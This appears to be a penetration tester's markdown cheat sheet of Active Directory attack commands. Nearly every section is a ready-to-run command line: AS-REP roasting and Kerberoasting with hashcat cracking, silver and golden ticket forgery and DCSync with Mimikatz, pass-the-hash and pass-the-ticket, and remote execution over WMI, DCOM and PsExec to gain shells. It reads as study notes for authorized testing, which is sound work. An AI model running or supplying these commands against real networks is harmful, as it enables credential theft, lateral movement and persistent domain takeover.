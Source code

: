 # Active Directory

## Compromising Credentials

### AS-REP Roasting
If for some ridiculous reason the `Do not require Kerberos preauthentication` user setting is enabled, the door is open for querying for and receiving the users encrypted credentials, which we can then crack offline:
```bash
impacket-GetNPUsers -dc-ip 192.168.12.34  -request -outputfile hashes.asreproast our.domain/chumpasaurusUser
```
Then crack with Hashcat:
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
If we'd like to do the same thing but from Windows then:
```powershell
.\Rubeus.exe asreproast /nowrap
```
Copy the output to Kali and save it in a file called `hashes.asreproast`, and the command above will work just as well.

### Kerberoasting
For classic Kerberoasting from Windows:
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Same deal with copying the hashes back over to Kali:
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
For the same but from Kali:
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.12.34 our.domain/chumpasaurusUser
```

### Silver Tickets
If attempting to forge a silver ticket to hit a website, the following will work nicely from within Mimikatz:
```
mimikatz # kerberos::golden /sid:<current user SID> /domain:our.domain /ptt /target:target-site.our.domain /service:http /rc4:<NTLM hash of user whose privilege we want to assume> /user:chumpasaurusUser
```

### DC Sync
We can impersonate a Domain Controller and prompt others to perform a sync operation. This can allow us to retrieve the NTLM hash of any user. Via Mimikatz:
```
mimikatz # lsadump::dcsync /user:corp\Administrator
```
and via Linux:
```bash
impacket-secretsdump -just-dc-user Administrator corp.com/powerfulUser:"rubbishPassw0rd\!"@192.168.12.34
```

## Moving Laterally

### Powershell Creds Block
For both WinRM and WMI make use of the following to generate a `$credential` variable:
```powershell
$username = 'chump';
$password = 'chumpsDogsName123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

### WinRM
Assuming you have credentials, the following will give us a Powershell session 
```powershell
New-PSSession -ComputerName 192.168.12.34 -Credential $credential
Enter-PSsession 1
```

### WMI
If for some reason we cannot use WinRM, or if we'd rather have a reverse shell from Kali, then worth trying WMI as an alternative:
```powershell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.12.34 -Credential $credential -SessionOption $Options
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
The `$Command` variable used above that isn't explicitly defined anywhere should be a base64 encoded reverse shell written in Powershell as detailed in `notes/shells.md`

### PsExec
This will need to be imported onto the machine, but once there very convenient. Comes as part of the SysInternals suite.
```powershell
./PsExec64.exe -i  \\TARGE-MACHINE -u corp\chump -p chumpsPassword cmd
```

### Pass the Hash - SMB Shares
Assuming we have already laid our hands on an NTLM hash courtesy of `mimikatz`, the following command will give us access to an SMB Share with those credentials:
```bash
smbclient \\\\<IP address or computer name>\\<share name> -U <user name> --pw-nt-hash <user hash>
```
for example:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

### Pass the Hash - Reverse Shell
We can authenticate to just about anything if the user whose hash we've obtained exists on the target machine, but as usual the holy grail is to just obtain a reverse shell:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:<user hash> <user name>@<target IP>
```

### Pass the Hash - CMD Shell
Now with the Impacket suite:
```powershell
/usr/bin/impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.12.34
```

### Pass the Hash - Mimikatz
As if we needed another way of doing this, but here it is again with Mimikatz:
```
mimikatz # sekurlsa::pth /user:chump /domain:corp.com /ntlm:7a38310ea6f0027ee955abed1762964b /run:powershell
```

### Overpass the Hash
Instead of merely leveraging an NTLM hash to authenticate as a user, we could use it to obtain a Ticket Granting Ticket (TGT). This will allow us to make use of services that authenticate via Kerberos, and do not accept NTLM hashes. Namely the SysInternals PsExec.exe program.

First auth against a network share to make sure there is a TGT cached on the machine:
```powershell
net use \\machine07
```
Verify a TGT has been cached:
```powershell
klist
```
Now leverage to obtain a shell on a machine that we otherwise might not have been able to:
```powershell
.\PsExec.exe \\files04 cmd
```

### Pass the Ticket
Dump all TGT and TGSs present on the machine we have an admin presence on:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
Load the ticket we like the look of into our current session:
```
mimikatz # kerberos::ptt name-of-ticket-we-liked.kirbi
```
This should give our current session any privilege that that ticket grants that we didn't have already. Eg. the ability to view previously restricted files in a network fileshare.

### DCOM
To create a DCOM object:
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.12.34"))
```
To leverage it to execute commands:
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"<our payload>","7")
```
For the payload section, once again we should make use of a base64 encoded Powershell reverse shell as detailed in `notes/shells.md`.


## Persistence

### Golden Ticket Forgery
If we have managed to own a domain controller, or a domain admin account, and we'd like to persist our access, then an ideal approach for us is to forge a so-called Golden Ticket.
```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:chump /domain:corp.com /sid:<chumps SID> /krbtgt:<krbtgt's NTLM hash> /ptt
mimikatz # misc::cmd
```
```powershell
PsExec.exe \\domainController cmd.exe
```
Nb. for the command above it is important to note that this is just Overpass The Hash on steroids, and that its important for us to leverage the hostname rather than the IP address. This is because if we use the hostname we leverage Kerberos as the auth mechanism, which we have just owned courtesy of our Golden Ticket. However if we use an IP then we fall back to NTLM auth, within which we have no special privilege.
